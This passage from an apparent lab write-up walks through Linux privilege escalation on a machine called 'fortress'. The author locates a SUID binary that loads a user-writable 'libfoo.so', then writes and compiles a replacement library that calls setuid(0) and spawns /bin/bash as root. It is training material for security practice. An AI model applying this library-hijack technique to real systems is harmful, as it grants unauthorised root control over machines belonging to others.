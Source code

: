 If we search the SUID binaries, then we’d find one unusual ‘/opt/bt’. Let’s look into that binary.

```
j4x0n@fortress:~$ file /opt/bt
/opt/bt: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb7bf398a6ca5b7782a85f0afcdd3554d44ca151, for GNU/Linux 3.2.0, not stripped
```

Do not execute this binary, as it’d start printing random stuff on the screen and you have to close the terminal.

```
j4x0n@fortress:~$ strings /opt/bt
/lib64/ld-linux-x86-64.so.2
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
puts
sleep
__cxa_finalize
__libc_start_main
libfoo.so
```

If we look into binary using strings, then it calls ‘libfoo.so’. Let’s find this file.

```
j4x0n@fortress:~$ find / -name 'libfoo.so' 2>/dev/null
/usr/lib/libfoo.so

j4x0n@fortress:~$ ls -la /usr/lib/libfoo.so
-rwxrwxr-x 1 j4x0n j4x0n 16080 Jul 26 12:54 /usr/lib/libfoo.so
```

We have full control over this file, let’s switch this file with malicious one.

[Abusing missing library for Privilege Escalation [3-minute read]](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)

```
j4x0n@fortress:~$ cat demo.c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int foo(){
        setuid(0);
        setgid(0);
        system("/bin/bash");
}

j4x0n@fortress:~$ gcc -shared -o libfoo.so -fPIC demo.c

j4x0n@fortress:~$ file libfoo.so
libfoo.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=790aec4897602f7263215dc776d71baf136153e0, not stripped
```

